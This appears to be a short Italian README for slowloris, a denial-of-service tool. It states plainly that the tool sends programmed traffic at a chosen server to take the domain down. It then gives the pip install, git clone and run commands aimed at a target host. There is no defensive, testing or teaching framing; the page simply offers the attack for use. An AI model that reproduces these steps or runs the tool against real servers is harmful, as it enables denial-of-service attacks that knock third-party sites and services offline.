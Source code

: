 Questo tool server a dossare (quindi a inviare pacchetti in modo programmato ad un server specifico) e quindi a bloccare il dominio.


________________________________________________________________________________________
Come installare ed eseguire?
È possibile clonare il repository git o installarlo usando pip. Ecco come eseguirlo.

sudo pip3 install slowloris
slowloris example.com
Questo è tutto ciò che serve per installare ed eseguire slowloris.py.

Se vuoi clonare usando git invece di pip, ecco come farlo.

git clone https://github.com/gkbrk/slowloris.git
cd slowloris
python3 slowloris.py example.com
